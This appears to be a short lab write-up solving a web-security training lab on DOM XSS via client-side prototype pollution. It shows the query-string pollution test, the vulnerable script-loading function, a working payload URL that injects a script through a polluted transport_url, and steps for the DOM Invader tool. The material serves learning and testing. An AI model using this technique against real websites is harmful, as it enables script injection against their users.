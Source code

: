 
# LAB

## Lab: DOM XSS via client-side prototype pollution

Steps taken to solve the lab

1. Checked if I could pollute the prototype using the query

    ```
    https://0a99008904962a90805a264100ff00e6.web-security-academy.net/?__proto__[foo]=bar
    ```
2. On browser console entered if foo prototype is added or not 

    ```
    > Object.foo
    bar
    ```
3. Checked the javascript code 

    ```
    async function searchLogger() {
    let config = {params: deparam(new URL(location).searchParams.toString())};

        if(config.transport_url) {
            let script = document.createElement('script');
            script.src = config.transport_url;
            document.body.appendChild(script);
        }

        if(config.params && config.params.search) {
            await logQuery('/logger', config.params);
        }
    }
    ```

    Here `if` statement is checking for config.transport_url, which has not been defined so we polluted `transport_url` with out data.

    ```
    https://0a99008904962a90805a264100ff00e6.web-security-academy.net/?__proto__[transport_url]=data:,alert(1)//
    ```

    Here `//` is for comment rest of the code which appends to transport_url.

    Which solved the lab


### Using Dom invader 

1. Enable Dom invader with prototype pollution attack enabled
2. Open the dev tools and head over to DOM invader extension
3. Now You will find two source, click on scan for gadgets
4. Once the scan is completed open the dev tools and click on exploit.
